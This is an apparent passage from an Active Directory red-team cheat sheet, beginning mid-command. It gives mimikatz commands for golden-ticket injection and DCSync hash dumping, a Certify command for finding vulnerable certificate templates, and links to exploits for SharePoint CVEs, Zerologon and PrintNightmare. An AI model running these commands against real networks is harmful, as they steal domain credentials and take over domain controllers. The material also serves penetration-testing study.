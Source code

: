 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz lsadump::dcsync /domain:root.domain.local /all

Detailed Articles:

- [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
- [A Guide to Attacking Domain Trusts](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

### Exploiting SharePoint

- [CVE-2019-0604](https://medium.com/@gorkemkaradeniz/sharepoint-cve-2019-0604-rce-exploitation-ab3056623b7d) RCE Exploitation [PoC](https://github.com/k8gege/CVE-2019-0604)
- [CVE-2019-1257](https://www.zerodayinitiative.com/blog/2019/9/18/cve-2019-1257-code-execution-on-microsoft-sharepoint-through-bdc-deserialization) Code execution through BDC deserialization
- [CVE-2020-0932](https://www.zerodayinitiative.com/blog/2020/4/28/cve-2020-0932-remote-code-execution-on-microsoft-sharepoint-using-typeconverters) RCE using typeconverters [PoC](https://github.com/thezdi/PoC/tree/master/CVE-2020-0932)

### Zerologon

- [Zerologon: Unauthenticated domain controller compromise:](https://www.secura.com/whitepapers/zerologon-whitepaper) White paper of the vulnerability.
- [SharpZeroLogon:](https://github.com/nccgroup/nccfsas/tree/main/Tools/SharpZeroLogon) C# implementation of the Zerologon exploit.
- [Invoke-ZeroLogon:](https://github.com/BC-SECURITY/Invoke-ZeroLogon) PowerShell implementation of the Zerologon exploit.
- [Zer0Dump:](https://github.com/bb00/zer0dump) Python implementation of the Zerologon exploit using the impacket library.

### PrintNightmare

- [CVE-2021-34527:](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527) Vulnerability details.
- [Impacket implementation of PrintNightmare:](https://github.com/cube0x0/CVE-2021-1675) Reliable PoC of PrintNightmare using the impacket library.
- [C# Implementation of CVE-2021-1675:](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare) Reliable PoC of PrintNightmare written in C#.

### Active Directory Certificate Services Check for Vulnerable Certificate Templates with: [Certify](https://github.com/GhostPack/Certify)

*Note: Certify can be executed with Cobalt Strike's execute-assembly command as well*

.\Certify.exe find /vulnerable /quiet

Make sure the msPKI-Certificates-Name-Flag value is set to "ENROLLEE_SUPPLIES_SUBJECT" and that the Enrollment Rights allow Domain/Authenticated Users. Additionally, check that the pkiextendedkeyusage parameter contains the "Client Authentication" value as well as that the "Authorized Signatures Required" parameter is set to 0.
